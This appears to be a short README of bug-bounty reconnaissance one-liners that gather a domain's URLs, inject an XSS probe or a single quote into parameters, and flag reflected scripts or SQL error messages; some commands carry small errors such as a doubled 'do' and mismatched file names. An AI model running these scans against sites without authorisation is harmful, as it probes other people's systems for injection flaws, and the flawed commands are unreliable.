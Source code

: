 # Some hunting scripts

## Tools:
https://github.com/tomnomnom/gf

https://github.com/tomnomnom/waybackurls

https://github.com/lc/gau

https://github.com/tomnomnom/qsreplace

https://github.com/projectdiscovery/httpx

https://github.com/tomnomnom/httprobe

https://github.com/tomnomnom/anew

https://github.com/devanshbatham/ParamSpider

https://github.com/hahwul/dalfox

## Find and testing XSS

```bash
python3 paramspider.py -d domain.com
```

### Output file has stored on output/domain.com.txt

```bash
cat domains.com.txt | gf xss | qsreplace '"><script>confirm(1)</script>' | while read host do; do curl --silent --insecure $host | grep -qs "<script>confirm(1)" && echo "[*] XSS HERE $host" ; done
```

## Find and testing XSS with Dalfox

```bash
subfinder -d domain.com -silent | httpx -l subdomains -silent | dalfox pipe -F -S
```

## Find SQL Injection Error Based
```bash
cat domains.com.txt | gf xss | qsreplace "'" | while read host do; do curl --silent --insecure $host | grep -qs "SQL syntax" && echo "possible sql injection here $host" ; done
```

